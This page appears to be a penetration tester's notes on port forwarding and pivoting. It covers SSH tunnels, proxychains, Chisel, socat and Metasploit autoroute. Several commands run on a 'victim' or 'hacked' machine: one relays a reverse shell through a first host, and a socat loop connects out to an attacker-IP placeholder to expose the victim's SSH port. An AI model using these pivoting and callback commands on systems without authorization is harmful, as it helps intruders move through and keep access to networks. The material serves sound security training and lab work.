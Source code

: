 ```yaml
---
description: Port Forwarding and Pivoting
---
```


# Port Forwarding

## SSH

### Locally

Example: we want to connect to the port 1025 on the remote machine "delivery" on our port 1337.

```
ssh -L 1337:localhost:1025 maildeliverer@delivery
```

Example: we want to access the port 1025 on the remote machine "pivotable" through the machine "delivery" on our machine on port 1337.&#x20;

```
ssh -L 1337:pivotable:1025 maildeliverer@delivery
```

### Remotely

Example: SSH to my kali, opens up port 1025 on the victim's localhost, to be accessible at port 1337 on kali.

```
ssh -R 1337:localhost:1025 kali@mykali
```

### Dynamically

This creates a SOCKS proxy that allows you to reach IP addresses that are in the same network as a box you can SSH to.&#x20;

Run the following commands on the box you want to proxy through:

```
# in an ssh session:
~C
-D 1080
```

Then, on your machine, make sure `/etc/proxychains.conf` has:

```
socks5 127.0.0.1 1080
```

Then you can use the `proxychains` command in front of your other commands to proxy through the machine. For example, this command curls the IP address 192.168.122.4 through the proxied machine:

```
proxychains curl 192.168.122.4
```

To use that with burp, go to "User Options", select "use socks proxy", and configure it to go through localhost on port 1080.

### Two Hops

This section explains how to forward a reverse shell gained in a second hacked box through a first hacked box to kali.

Run the following commands on the first hacked machine:

```
# in an ssh session:
~C

# first part is for the hacked machine
# second part is for kali
-R 127.0.0.1:9001:127.0.0.1:9001 
```

**Question:** Why can't we just specify the private IP address in the above command instead of 127.0.0.1? In that case, we wouldn't have to redirect with socat later on.

You can confirm whether it worked by running:

```
netstat -alnp | grep 9001
```

This will send everything from the hacked machine's localhost:9001 to kali:9001. However, **it will not send anything from the hacked machine's private IP address** to kali.&#x20;

You can use socat to redirect traffic from the second hacked machine's private IP address to its localhost, so that the traffic could be forwarded to kali.&#x20;

In this example, the first hacked box's IP address is 192.168.122.1:

```
socat TCP-LISTEN:9001,bind=192.168.122.1,fork,reuseaddr TCP:localhost:9001 &
```

After you have set that up, you can run a reverse shell on the second hacked machine and have it connect to port 9001 on the first hacked machine. That connection will be forwarded to port 9001 on your kali. **Don't forget to run a listener on port 9001** in kali to catch the connection.

## Chisel

This will allow you to access port 4505 on the target's localhost from port 4505 on your own machine.

```
# Run on kali
./chisel_1.7.6_linux_amd64 server -p 12312 --reverse

# Run on target machine
./chisel_1.7.6_linux_amd64 client YOUR_IP_ADDRESS:12312 R:4505:127.0.0.1:4505
```

## Socat

### Same Machine Redirection

You can use socat for redirecting a port to another port on the same machine.

For example, this command redirects port 9001 on the IP address 192.168.122.1 to localhost:9001 **on that same machine**:

```
socat TCP-LISTEN:9001,bind=192.168.122.1,fork,reuseaddr TCP:localhost:9001 &
```

### **Access Remote Port Through Local Port**

{% embed url="https://book.hacktricks.xyz/tunneling-and-port-forwarding#remote-port-2-port" %}

**Warning**: For some strange reason, when I used this to forward a web port, then I was able to do curl requests to this, but not gobuster or wfuzz.

```
# On attacker's machine
# Redirect port 2222 to port 443 in localhost
sudo socat TCP4-LISTEN:443,reuseaddr,fork TCP4-LISTEN:2222,reuseaddr

# On victim machine
# Establish connection with the port 443 of the attacker and everything that comes from here is redirected to port 22
while true; do socat TCP4:ATTACKER_IP_ADDRESS_HERE:443 TCP4:127.0.0.1:22 ; done 
```

After following the above example, your port 2222 will be forwarded to a victim's port 22. So you can SSH to the victim like this:

```
ssh localhost -p 2222
```

## Meterpreter Autorouting

Use autoroute to automatically route traffic to a specific host

{% embed url="https://www.offensive-security.com/metasploit-unleashed/pivoting/" %}

Set up a socks proxy

```
use auxiliary/server/socks_proxy
run
```

Then set up proxychains by editing `/etc/proxychains.conf`. Add the socks5 proxy line under  `[ProxyList]`(if there is already a ProxyList, add the line under the existing ProxyList):

```
[ProxyList]
socks5 127.0.0.1 1080
```

In metasploit, set up autorouting

```
use multi/manage/autoroute
set cmd autoadd
set session SESSION_NUMBER_HERE # Has to be meterpreter I think
set subnet NETWORK_IP_ADDRESS_HERE
set netmask NETMASK_HERE
run
```

After that is done, you can run nmap and other tools against hosts in the chosen subnet using proxychains. For example, let's say you chose the subnet 172.17.0.0, and you want to scan the host at 172.17.0.1:

```
proxychains -q nmap -A -v 172.17.0.1
```

## Meterpreter Port Forwarding

Portfwd is a command you can use for port forwarding on meterpreter

{% embed url="https://www.offensive-security.com/metasploit-unleashed/portfwd/" %}

## Pivoting Cheat Sheet

In-depth guide on different scenarios (ssh, reverse, tunnelling, etc):

[https://artkond.com/2017/03/23/pivoting-guide/](https://artkond.com/2017/03/23/pivoting-guide/)\
